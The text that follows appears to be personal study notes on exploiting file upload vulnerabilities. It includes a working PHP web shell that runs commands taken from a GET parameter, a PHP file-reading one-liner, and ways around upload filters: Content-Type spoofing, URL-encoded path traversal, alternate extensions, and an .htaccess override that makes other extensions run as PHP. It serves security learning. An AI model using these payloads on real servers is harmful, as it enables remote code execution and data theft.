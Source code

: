 # File upload vulnerabilities

To read contents of an arbitrary file:
```Php
<?php echo file_get_contents('/path/to/target/file'); ?>
```

Simple webshell:
```PHP
// exploit.php content:
<?php echo system($_GET['command']); ?>

// then do the following request:
GET /example/exploit.php?command=id HTTP/1.1
```

When sending your form inputs the browser will send a post request with Content-Type: application/x-www-form-url-encoded. But this cannot be enough for sending binary data like PDF files, etc. For that, Content-Type should be multipart/form-data.

## Web shell upload via Content-Type restriction bypass
Upload a php file
Just change Content-Type header value to image/jpeg or image/png
Boom!

## Web shell upload via path traversal

We first try to upload the file and see the response:
![[Pasted image 20220327214544.png]]

Now we try directory traversal to see if we can save the file to another directory:
![[Pasted image 20220327214701.png]]
We see that the server prevents our path traversal attempt by removing characters. 

Now we URL encode our input and try again:
![[Pasted image 20220327214828.png]]
BOOM! With a simple URL encode, we can bypass the restriction and save the file to /files directory!

## Insufficient blacklisting of dangerous file types
Sometimes servers block uploading of files with the extension .php, etc.
But we can simply bypass this by changing the extension to .php5, .shtml, etc.

## Overriding server configs
Usually servers have config files in which extensions to be executed are declared.
For a .php file to be executed by a client's request, a developer may add the following to /etc/apache2/apache2.conf:
```
LoadModule php_module /usr/lib/apache2/modules/libphp.so AddType application/x-httpd-php .php
```

Many servers will allow directory specific config files to override or to be added to the global ones. For example, in Apache, directory specific config files are loaded from .htaccess file.
Similarly, IIS server can be configured to do the same via web.config file:
```
<staticContent> <mimeMap fileExtension=".json" mimeType="application/json" /> </staticContent>
```

Let's upload a .htaccess file with our own configuration to make a file with an extension not blocked by the server to be executed as php file.
.htaccess content:
```
AddType application/x-httpd-php .fun
```

Now, if we just change the extension of our php file to .fun, it will not be blocked, and will be uploaded. Then we can call it and have it executed by the server.
